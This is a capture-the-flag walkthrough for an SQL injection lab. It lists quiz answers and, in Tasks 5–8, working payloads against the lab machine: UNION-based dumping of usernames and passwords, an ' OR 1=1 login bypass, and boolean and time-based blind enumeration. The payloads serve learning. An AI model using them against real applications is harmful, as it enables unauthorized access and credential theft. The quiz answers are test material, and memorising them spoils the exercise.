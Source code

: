 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

#### `Task 1: Brief`
##### - What does SQL stand for?
	- Structured Query Language
	
#### `Task 2: What is a Database?`
##### - What is the acronym for the software that controls a database?
	- DBMS
	
##### - What is the name of the grid-like structure which holds the data?
	- Table
	
#### `Task 3: What is SQL?`
##### - What SQL statement is used to retrieve data?
	- SELECT
	
##### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
##### - What SQL statement is used to add data?
	- INSERT

#### `Task 4: What is SQL Injection?`
##### - What character signifies the end of an SQL query?
	- ;

#### `Task 5: In-Band SQLi?`
Deploy the machine, then use the given commands by inserting it next to the last parameter.
- This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will be able to find the username and password, then you can proceed inputting it in the login form and you will get the flag in the next page.

#### `Task 6: Blind SQLi - Authentication Bypass`
The next one is basically bypassing the authentication with the help of simple SQL injection,
In the login form you can basically input any username you want but in the password section I used- 
```
' OR 1=1;--
```
This means that the server will receive the payload as an true statement and will proceed to login the account.

#### `Task 7: Blind SQLi - Boolean Based`
This task will have an indicator when the characters that are being type are equal to the actual name of the database,table or column.
When the application will return true that means that you are typing the correct character or number. 

Firstly, we will use this code and it will return true since there are three columns in that table.
```
admin123' UNION SELECT 1,2,3;-- 
```
Then, we will guess for the correct database name for us to exploit the database.
```
admin123' UNION SELECT 1,2,3 where database() like 's%';--
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
admin123' UNION SELECT 1,2,3 where database() like 'sql%';--
```
By doing this cycle as much as possible the indicator will return true, so that we will know if we are getting the exact name for the database.
Then after we get the actual name of the database we will now search for the table name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'us%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'use%';--
```
After that we will now proceed getting the column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'id%';--
```
But we did find the other column name that is `id` and it is just basically nonsense for us so we will ignore it and continue finding other column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'passwo%' and COLUMN_NAME !='id';--
```
After we find the two column name that seems valuable to us which is `username` and `password` then we will now proceed to find the row or data in that column.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'ad%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then for the password-
```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '38%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '384%';--
```

#### `Task 8: Blind SQLi - Time Based`
This is the same as the previous task but instead it will use the time to indicate that you are getting the exact characters for the actual name in the database.
First, we will test the application by using this code-
```
admin123' UNION SELECT SLEEP(5),2;--
```
After we know that the SLEEP command works, it represents that it is vulnerable to that attack.
```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sq%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sql%';--
```
Then after several try I found that the database name is `sqli_four`, then we will continue finding the table name.
Actually I just used the same command from previous task but just changing some code in there.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'us%';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'use%';--
```
Then I found that the table name is `users` and by knowing that we can now proceed to find the columns in that table.
Again, I used the same command from the previous task just doing some modifications.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'user%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passw%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passwor%' and COLUMN_NAME !='id';--
```
We now know that in the `users` table we have `username` and `password` column sitting in there.
Then, we will now find the actual row or data that the columns contain.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then
```
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%1';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '49%1';--
```
After a few try we now know the correct username and password. `admin:4961`

#### `Task 9: Out-of-Band SQLi`
##### - Name a protocol beginning with D that can be used to exfiltrate data from a database.
	- DNS

#### `Task 10: Remediation`
##### - Name a method of protecting yourself from an SQL Injection exploit.
	- Prepared Statements
